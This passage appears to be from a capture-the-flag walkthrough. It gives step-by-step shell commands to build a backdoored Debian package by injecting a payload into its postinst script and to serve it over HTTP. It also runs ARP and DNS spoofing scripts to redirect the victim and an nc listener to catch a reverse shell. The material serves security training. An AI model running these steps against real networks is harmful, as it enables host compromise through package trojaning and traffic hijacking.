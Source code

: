 echo $payload >> work/DEBIAN/postinst
dpkg-deb --build work
mv work.deb suriv_amd64.deb
mkdir -p pub/jfrost/backdoor
mv suriv_amd64.deb pub/jfrost/backdoor
python3 -m http.server 80
</code></pre>

Create 5 tmux panes (Ctrl+B C).

In first tmux pane:

<pre><code class="bash">tcpdump -nn -i any</code></pre>

Second tmux pane:

<pre><code class="bash">cd scripts
:> dns_resp.py
:> arp_resp.py
vim dns_resp.py
:set paste
(-> on your system: cat dns_resp.py | xclip -sel clip 
 -> paste dns_resp.py into this file)
:wq!
vim arp_resp.py
:set paste
(-> on your system: cat arp_resp.py | xclip -sel clip
 -> paste arp_resp.py into this file)
chmod u+x *.py
cd ..
vim cdb.sh
:set paste
(-> on your system: cat create_deb_malware.sh | xclip -sel clip)
 -> paste this into cdb.sh)
:wq!
chmod u+x cdb.sh
./cdb.sh
</code></pre>

Third tmux pane:

<pre><code class="bash">cd scripts/
./dns_resp.py
</code></pre>

Fourth tmux pane:

<pre><code class="bash">nc -nlvp 8080</code></pre>

Fifth tmux pane:

<pre><code class="bash">cd scripts/
./arp_resp.py</code></pre>

Fourth tmux pane:

A reverse shell should have been created.
